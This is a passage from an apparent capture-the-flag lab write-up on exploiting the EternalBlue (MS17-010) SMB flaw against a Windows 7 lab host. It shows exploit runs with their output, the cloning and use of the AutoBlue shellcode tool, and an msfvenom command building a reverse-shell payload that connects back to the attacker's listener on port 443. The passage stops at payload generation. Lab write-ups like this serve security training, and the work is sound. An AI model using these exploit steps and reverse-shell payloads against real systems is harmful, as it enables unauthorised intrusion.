 ```
```

Trying both I get the same response of INVALID_PARAMETER, but that's supposed to be a good response.

```
python 42031.py 10.10.10.40 sc_x64_payload.bin
shellcode size: 460
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
dd
```

But there's no activity on my listening port of 443.  I figured I probably didn't generate the right payload, so searching again I found some more payloads in another exploit tool, AutoBlue.

Although I could certainly try running AutoBlue instead of 42031.py, I thought I could use this tool to help generate the payload.

```
#git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
#cd AutoBlue-MS17-010/shellcode
#ls *.sh
shell_prep.sh
#./shell_prep.sh 
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode                                                                                                                                                      [269/1973]
Compiling x86 kernel shellcode                                                                 
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)                                                                                               
Y                                                                                              
LHOST for reverse connection:                                                                                                                                                                 
10.10.14.2                                                                                                                                                                                    
LPORT you want x64 to listen on:                                                                                                                                                              
443                                                                                                                                                                                           
LPORT you want x86 to listen on:                                                                                                                                                              
444                                                                                                                                                                                           
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell                                                                                                                   
1                                                                                              
Type 0 to generate a staged payload or 1 to generate a stageless payload                                                                                                                      
1                                                                                              
Generating x64 cmd shell (stageless)...                                                        

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.10.14.2 LPORT=443                                                                                 
```